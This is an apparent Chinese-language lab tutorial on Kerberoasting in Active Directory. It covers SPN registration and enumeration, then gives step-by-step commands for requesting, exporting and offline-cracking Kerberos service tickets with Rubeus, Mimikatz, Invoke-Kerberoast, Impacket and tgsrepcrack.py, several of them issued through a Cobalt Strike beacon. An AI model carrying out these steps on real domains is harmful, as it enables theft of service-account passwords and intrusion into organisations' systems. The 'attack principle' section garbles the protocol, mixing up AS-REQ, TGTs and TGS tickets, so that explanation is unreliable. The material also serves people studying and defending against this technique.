# Kerberoast攻击

## SPN简介

Windows SPN（Service Principal Name）是用于身份验证和授权的一种标识，它是一个唯一标识符，用于标识运行在网络中的服务实体（例如计算机、服务或应用程序）。在 Windows 中，SPN通常与 Kerberos 身份验证协议一起使用，以便对网络上的服务进行身份验证和授权。

在 Windows 中，SPN通常与服务账户（Service Account）相关联。服务账户是一种专用帐户，用于表示网络服务或应用程序，而不是人员。服务账户可以用来运行 Windows服务或其他自动化任务，并且可以分配必要的权限以执行这些任务。

SPN通常由管理员配置，以确保客户端可以与正确的服务实体进行身份验证和授权。当客户端向服务请求身份验证时，它会使用 SPN来查找要与之通信的服务实体，并使用该服务实体的凭据来进行身份验证。如果 SPN不正确或不存在，则可能会导致身份验证失败或安全问题。

SPN（ServicePrincipalName）唯一标识了一个服务账户，它看起来像下面这样：



**验证流程**

```Mermaid
graph TD;
  A[客户端] --> B[获取目标服务的SPN];
  B --> C[Kerberos请求目标服务的TGT];
  C --> D[Kerberos向目标服务发送TGT+SPN];
  D --> E[目标服务检查TGT是否有效];
  E --> F[目标服务使用TGT验证客户端身份];
  F --> G[目标服务向客户端发送服务凭据];
  G --> H[客户端使用服务凭据访问目标服务];
```


**SPN类型**

在 Windows 中，SPN 的类型并不是根据服务账户的类型（机器帐户或域用户帐户）来分类的，而是根据服务的类型来分类的。根据服务的类型，SPN 可以分为三类：

1. 主机 SPN（Host SPN）：主机 SPN 是指注册在计算机账户（Computer Account）下的 SPN，通常表示计算机上运行的网络服务。主机 SPN 的语法格式为 `HOST/hostname`，其中 `hostname` 表示计算机名或 IP 地址。
2. 用户 SPN（User SPN）：用户 SPN 是指注册在用户账户（User Account）下的 SPN，通常表示用户自己的网络服务。用户 SPN 的语法格式为 `service-type/server-name`，其中 `service-type` 表示服务类型，`server-name` 表示服务器名或 IP 地址。
3. 基于委派的 SPN（Constrained Delegation SPN）：基于委派的 SPN 是指注册在用户账户下的 SPN，但可以被授权代表用户进行服务委派。基于委派的 SPN 的语法格式和用户 SPN 相同。

> 需要注意的是，如果服务的权限为 Local System 或 Network Service，注册的 SPN 会默认绑定到计算机账户下。而如果服务的权限为一个域用户，SPN 则会绑定到该用户账户下。但这并不是 SPN 类型的决定因素，而是绑定 SPN 的对象的不同。


**SPN语法格式**

在 Windows 中，SPN（Service Principal Name）的语法格式如下：

```
[service-type]/[hostname]:[port]/[service-name]
```

其中，各部分的含义如下：

- `[service-type]`：服务类型，通常使用大写字母表示，例如 HTTP、MSSQL、LDAP、SMTP 等。
- `[hostname]`：主机名或 IP 地址，用于标识服务实体所在的计算机。
- `[port]`：端口号，标识服务实体所在计算机上的服务监听的端口号。如果服务不使用标准端口号，需要显式指定。
- `[service-name]`：服务名称，通常是服务实体的名称或别名。

下面是一些 SPN 示例：

- `HTTP/www.example.com`：表示运行在主机 `www.example.com` 上的 HTTP 服务。
- `MSSQLSvc/sqlserver.example.com:1433`：表示运行在主机 `sqlserver.example.com` 上、端口为 `1433` 的 SQL Server 服务。
- `SMTP/mail.example.com`：表示运行在主机 `mail.example.com` 上的 SMTP 服务。

> 需要注意的是，SPN 必须是唯一的，如果有多个服务实体具有相同的 SPN，将会导致身份验证和授权的问题。因此，在为服务实体配置 SPN 时，需要确保 SPN 的唯一性，并遵循正确的语法格式。

## Kerberoast攻击简介

Kerberoast攻击是一种利用Windows域控制器中Kerberos认证协议的漏洞进行攻击的技术。Kerberos是一种安全认证协议，用于在Windows域中进行身份验证。攻击者可以使用Kerberoast攻击来获取域中的服务账号密码，进而访问这些服务账号所控制的资源。

攻击者首先需要使用域账号（不需要特殊权限）通过Kerberos协议获取到目标服务账号的Kerberos TGS票据（Ticket-Granting Service ticket），然后通过离线破解技术破解这个TGS票据中的服务账号密码。一旦攻击者获取到服务账号密码，就可以使用这个密码来访问受该服务账号所保护的资源，比如数据库、文件服务器等。

## SPN设置

服务主体名称 (`SPN`) 是`Active Directory`中客户端用来唯一标识服务实例的名称。`SPN`将服务名称与计算机和用户账户相结合，形成一种服务`ID`。为了使`Kerberos`认证（一种在网络上验证客户和服务器实体的协议）发挥作用，必须为`Active Directory`中为每个服务账户注册一个`SPN`。

在这个演示中，为`mssql`设置一个`SPN`。

我们有一个域帐户`mssql`，我们将使用它作为服务帐户。我们将在一台假装是`SQL`服务器的计算机上注册它，用下面的命令来注册一个`SPN`：

```
PS C:\Users\Administrator> setspn -s MSSQLSvc/sqlserver.sectest.com sectest.com\mssql
正在检查域 DC=sectest,DC=com

为 CN=mssql,CN=Users,DC=sectest,DC=com 注册 ServicePrincipalNames
        MSSQLSvc/sqlserver.sectest.com
更新的对象
```

让我们从`Active Directory`用户和计算机中验证其属性，以查看其设置是否正确。



现在，如果我们在整个域中搜索SPN，我们应该能够看到它。

```
PS C:\Users\Administrator> setspn.exe -t sectest.com -q */*
```


查看指定注册用户的SPN

```
PS C:\Users\Administrator> setspn.exe -L  sectest.com\mssql
Registered ServicePrincipalNames 用于 CN=mssql,CN=Users,DC=sectest,DC=com:
        MSSQLSvc/sqlserver.sectest.com
```

或者我们可以通过`LDAP`查询，在`adsisearcher`的帮助下，轻松枚举出服务账户的服务主体名称（`SPN`）：

```
PS C:\Users\Administrator> ([adsisearcher]'(servicePrincipalName=*)').FindAll()

Path                                                   Properties
----                                                   ----------
LDAP://CN=DC-1,OU=Domain Controllers,DC=sectest,DC=com {ridsetreferences, logoncount, codepage, objectcategory...}
LDAP://CN=EXCHANGE-1,CN=Computers,DC=sectest,DC=com    {logoncount, codepage, objectcategory, iscriticalsystemobject...}
LDAP://CN=SQL-1,CN=Computers,DC=sectest,DC=com         {logoncount, codepage, objectcategory, iscriticalsystemobject...}
LDAP://CN=WEB-1,CN=Computers,DC=sectest,DC=com         {logoncount, codepage, objectcategory, iscriticalsystemobject...}
LDAP://CN=WEB-2,CN=Computers,DC=sectest,DC=com         {logoncount, codepage, objectcategory, iscriticalsystemobject...}
LDAP://CN=krbtgt,CN=Users,DC=sectest,DC=com            {logoncount, codepage, objectcategory, description...}
LDAP://CN=mssql,CN=Users,DC=sectest,DC=com             {givenname, codepage, objectcategory, dscorepropagationdata...}
```


## SPN扫描

> SPN 扫描是指通过网络扫描发现并识别目标计算机上已注册的 SPN。

当计算机加入域时,主SPN会自动添加到域的计算机账号的`ServicePrincipalName`属性中。在安装新的服务后，SPN也会被记录在计算机账号的相应属性中。

由于SPN扫描是基于LDAP协议向域控制器进行查询的，所以，攻击者只需要获得一个普通的域用户权限，就可以进行SPN扫描。

### 使用 SetSPN 查询

> SetSPN 是 Windows 中的一个命令行工具，可以用于管理和查询 SPN。

查看当前域内所有的SPN:

```
setspn -q */*
```


查找指定域的SPN:

```shell
setspn -T sectest.com -q */*
```


查找指定用户/主机名注册的 SPN

> ```
> setspn -L <username>/<hostname> 
> ```

```
PS C:\Users\Administrator> setspn -L mssql
Registered ServicePrincipalNames 用于 CN=mssql,CN=Users,DC=sectest,DC=com:
        MSSQLSvc/sqlserver.sectest.com
```

### PowerShell-AD-Recon

PowerShell-AD-Recon 是一个开源的 PowerShell 脚本，用于自动化执行一系列的活动目录渗透测试和安全审计任务。该脚本可以帮助安全专家和渗透测试人员快速、有效地识别活动目录中的安全漏洞和弱点，从而加强活动目录的安全性。

> 工具下载地址：https://github.com/PyroTek3/PowerShell-AD-Recon

如果仅查询域内的MSSQL服务，我们可以使用工具提供的`Discover-PSMSSQLServers`脚本。



如果查询域内所有的SPN信息，我们可以使用`Discover-PSInterestingServices`脚本。

```
beacon> powershell-import D:\PowerShell-AD-Recon\Discover-PSInterestingServices
[*] Tasked beacon to import: D:\PowerShell-AD-Recon\Discover-PSInterestingServices
[+] host called home, sent: 4552 bytes
beacon> powershell Discover-PSInterestingServices
[*] Tasked beacon to run: Discover-PSInterestingServices
[+] host called home, sent: 353 bytes
[+] received output:


Domain          : sub.sectest.com
ServerName      : DC-2.sub.sectest.com
SPNServices     : Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04;DNS;exchangeAB;ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 19:22:32
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : _msdcs.sectest.com
ServerName      : _msdcs.sectest.com\DNSzone
SPNServices     : ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 19:22:32
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sectest.com
ServerName      : sectest.com\krbgt
SPNServices     : kadmin
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : sql-1.sectest.com
SPNServices     : WSMAN
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 22:07:25
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sectest.com
ServerName      : sqlserver.sectest.com
SPNServices     : MSSQLSvc
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : web-1.sectest.com
SPNServices     : WSMAN
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 20:15:09
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sub.sectest.com
ServerName      : WIN-JV2UTETPBBP.sub.sectest.com
SPNServices     : exchangeAB;ldap
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : EXCHANGE-1.sectest.com
SPNServices     : exchangeRFR;IMAP;SMTP;WSMAN
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 23:16:35
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sub.sectest.com
ServerName      : sub.sectest.com\krbgt
SPNServices     : kadmin
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : DC-1.sectest.com
SPNServices     : Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04;DNS;exchangeAB;ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 18:37:02
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : _msdcs.sectest.com.sub.sectest.com
ServerName      : _msdcs.sectest.com.sub.sectest.com\DNSzone
SPNServices     : ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 18:37:02
OSVersion       : {10.0 (14393)}
Description     : 

```


### GetUserSPNs

`GetUserSPNs` 是一个开源的 PowerShell 脚本，用于枚举活动目录中已注册的用户 SPN。它的工作原理是，首先查询活动目录中的所有用户帐户，然后通过 Kerberos 协议尝试获取与该用户帐户关联的 SPN。如果成功，脚本将显示已找到的 SPN 信息，包括 SPN 的语法格式、用户账号和所在计算机名。

> 下载地址：https://github.com/nidem/kerberoast.git




### PowerView

PowerView 是一个 PowerShell 模块，可以用于自动化执行活动目录渗透测试和安全审计任务。

> 下载地址：https://github.com/PowerShellMafia/PowerSploit/

```
beacon> powershell Get-NetUser -SPN
```




### Impacket

`GetUserSPNs.py` 是 Impacket 工具集中的一个脚本，用于枚举活动目录中已注册的用户 SPN。

```
┌──(root㉿kali)-[/opt/impacket]
└─# GetUserSPNs.py  sectest.com/administrator -dc-ip sectest.com
```

> 没有给`machao`用户进行远程访问权限。




## Kerberoasting 攻击原理

Kerberoasting 攻击是一种利用 Kerberos 协议漏洞的攻击方式，可以在不知道用户密码的情况下，从活动目录中枚举出可以被攻击的用户账户，获取其 Kerberos 预身份验证票据（AS-REQ），并对其进行脱机暴力破解。如果用户账户的服务主体名称（SPN）符合特定的格式，则可以直接获取到 Kerberos 服务票据（TGS），并对其进行暴力破解，从而获得用户账户的明文密码或哈希值。

Kerberoasting 攻击的过程如下：

1. 攻击者枚举活动目录中所有的用户账户，查找其中可以被攻击的账户。通常，攻击者会使用 BloodHound 等工具进行自动化枚举和查询。
2. 攻击者获取目标账户的服务主体名称（SPN），并将其提交给域控制器（DC）。
3. DC 返回一个 Kerberos 预身份验证票据（AS-REQ），其中包括加密的 TGT 和一些元数据信息。
4. 攻击者使用工具（如 Rubeus）对 AS-REQ 进行脱机暴力破解，从中获取 TGT 的哈希值。
5. 如果目标账户的 SPN 符合 Kerberoasting 漏洞的要求（即 SPN 是基于服务账户的服务，且服务不需要用户密码验证），则攻击者可以直接使用 TGS-REP 响应中的信息获取 Kerberos 服务票据（TGS）。
6. 攻击者使用工具（如 hashcat）对 TGS 进行暴力破解，从中获取用户账户的明文密码或哈希值。

攻击流程图




## 请求服务票据

### 使用 Rubeus 工具

> 下载地址：https://github.com/GhostPack/Rubeus

Rubeus 的 kerberoasting 模块可以用于执行 Kerberoasting 攻击，即通过枚举活动目录中的账户和 SPN，获取 Kerberos 预身份验证票据（AS-REQ），并对其进行脱机暴力破解，从中获取用户账户的哈希值。

```
beacon> execute-assembly D:\tools\Rubeus.exe kerberoast /domain:sectest.com
```



### 使用 PowerShell 命令请求

GetUserSPNs.ps1 是一款基于 PowerShell 编写的工具，可以用于在活动目录中获取可猎取的账户的 Kerberos 服务主体名称（SPN）。它的工作原理是枚举活动目录中所有的用户账户，查找其中可以用于 Kerberoasting 攻击的账户，并获取其对应的 SPN，最后将 SPN 输出到屏幕上或保存到文件中。

请求服务票据 

```powershell
powershell-import D:\GetUserSPNs.ps1
powershell  Add-Type -AssemblyName System.IdentityModel
```



PowerShell 中用于创建 Kerberos 安全令牌对象的 cmdlet。该 cmdlet 可以用于在 PowerShell 中生成 Kerberos 安全令牌，从而进行 Kerberos 认证或者 Kerberoasting 攻击。

```
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.sectest.com"
```



列出服务票据

```
run klist
```


### 使用 Mimikatz 工具请求

使用 Mimikatz 请求指定 SPN 的服务票据，请求服务票据

```
beacon> mimikatz kerberos::ask /target:MSSQLSvc/sqlserver.sectest.com
```



列出服务票据

```
beacon> mimikatz kerberos::list    
```




## 服务票据的导出

### 使用 Mimikatz 工具导出

```
beacon> mimikatz kerberos::list /export
```


### 使用 Invoke-Kerberoast.ps1 脚本

> 项目地址：https://github.com/EmpireProject/Empire

`Invoke-Kerberoast.ps1` 是一款基于 PowerShell 编写的 Kerberoasting 工具，可以用于在活动目录中枚举和攻击可猎取账户的 SPN，获取其对应的哈希值，并进行脱机暴力破解。

`Invoke-Kerberoast.ps1` 的工作原理是使用 PowerShell 远程连接到目标系统，然后使用 `Get-DomainUser` cmdlet 枚举活动目录中的用户账户，并筛选出可猎取的账户。然后，使用 `Invoke-Mimikatz` cmdlet 生成 Kerberos 预身份验证票据（AS-REQ），并使用哈希工具对其进行破解，从中获取账户的哈希值。

```
Import-Module .\Invoke-Kerberoast.ps1  
Invoke-Kerberoast -outputFormat Hashcat
```


## 服务票据的暴力破解

### 使用 tgsrepcrack.py 脚本

> 下载地址：https://github.com/nidem/kerberoast.git

`tgsrepcrack.py` 是一款 Python 编写的 Kerberoasting 工具，可以用于破解 Kerberos 预身份验证票据（AS-REQ）的哈希值，从而获取账户的明文密码或者哈希值。

> python  tgsrepcrack.py <字典> <导出的服务票据>

```
┌──(root㉿kali)-[/opt/kerberoast-master]
└─# python3 tgsrepcrack.py wordlist /tmp/8-40a10000-machao@MSSQLSvc\~sqlserver.sectest.com-SECTEST.COM.kirbi 
```

